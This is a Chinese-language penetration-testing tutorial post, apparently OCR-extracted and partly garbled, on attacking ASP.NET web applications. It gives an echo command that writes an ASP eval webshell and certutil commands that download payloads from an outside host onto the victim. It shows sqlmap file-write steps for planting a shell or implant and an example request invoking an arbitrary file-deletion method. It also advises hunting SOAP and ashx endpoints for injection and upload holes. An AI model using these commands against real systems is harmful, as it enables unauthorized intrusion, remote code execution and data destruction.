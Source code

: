 如下最常用的 echo 写 shellecho ^<^%eval request("z")%^>^> E:\\1 项目资料\E7HRBLL\\Report\\KaoQin\\1.aspcmd 中 sqlmap 将“E:1\项目资料\E7HRBLL\Report\KaoQin\1.asp”这个默认utf8 编码的路径进行 hex 编码然后传参到 gbk 编码的 mssql 数据库中执行。中文路径会直接乱码，导致无法写 shell.

解决办法:

1 使用 certutil.exe 下载certutil -urlcache -split -f http://xss.xiuo9.cn/1.execertutil.exe -urlcache -split -f http://xss.xiu09.cn/1.txt D:\1.asp

2 使用 sqlmap 自带上传功能（也是利用 certutil.exe，但是兼容性更好，推荐使用)首先在本机写一个 gbk 编码的 txt，内容是 echo 写木马



然后 sQLmap 执行-file-write C\Usersxiu\Desktop\1.txt -file-dest D:\1.bat将本地 1.txt 上传到对方机器 d 盘 1.bat然后在 os-shell 中执行 1.bat 可以自动将 shell 写到自己想写的路径也可以用于写上线马



**3 通过其他端口拿到源码后的简单利用** 

通过 js/爆破等方法都无法进—步利用，可以 fofa 搜这个通用的系统的其他端口,



**4 拿到源码之后要怎么做**

4.1 拿到源码之后，第一时间寻找 web.config（详见https://www.cnblogs.com/kevin860/p/10958299.html），看配置文件，有写有数据库的东西跟一下接口

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJibVXD3ULCk234YXWEz0P9zDiaDOTEGicsTZwWue3JDiawbzFW3T1CWALKH0WlWrXCykBGFsJycXSW2Cg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



接下来就寻找 asmx 结尾的文件

asmx 是什么？asmx 是 WEB 服务文件asmx.cs 里有相关代码属于 B/S 形式，用 SOAP 方式 HTTP 访问，用 XML 返回可以返回基础类型和 PUBLIC 结构类型。

在 C/S 结构中经常用到

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJibVXD3ULCk234YXWEz0P9zDXic6LPfakEtZhLVStUjBobWcaHYxR5NC8YyPfnVibuFGcSm8CJwny7Mg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJibVXD3ULCk234YXWEz0P9zDicAjbD9QtibyE4A4liaeI2GTPH3cxX6uzgSZyCCytibksFHcLzr4uXvc7Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

soap 最容易出现什么漏洞

注入 上传 各种信息泄露等等

最简单的办法，发现 soap 直接丢到 sqlmap 百分之八十出注入



4.2 寻找 ashx 结尾的文件ashx 是 sapx 的众多组件之一，也是.net 的扩展名之一我们也可以把 ashx 理解成各种方法通过 Class 类找到对应的 dll 文件，拖到 dnspy 反编译比如说 upload.ashx找到对应的 dll 文件拖到 dnspy 反编译使用 action 来调用方法并且 upload.ashx 有多达 30 多个方法，然而程序员将只调用了几个有拦截的文件上传接口，这些没拦截的任意文件上传和任意文件删除方法不通过反编译是挖掘不了的任意文件删除方法http://xxxxxx0xxx/Ajax/upload.ashx?action=deleteBackground&nameD:/FumaBS_New/1.txt



思路：

1.爆破 js 寻找有没有 asmx 的文件

2.目录遍历 寻找 saop 接口 一般有目录遍历有百分之八十是能找到 soap 接口补充：利用反编译寻找其他的方法，.net 可以扫备份文件

**
**
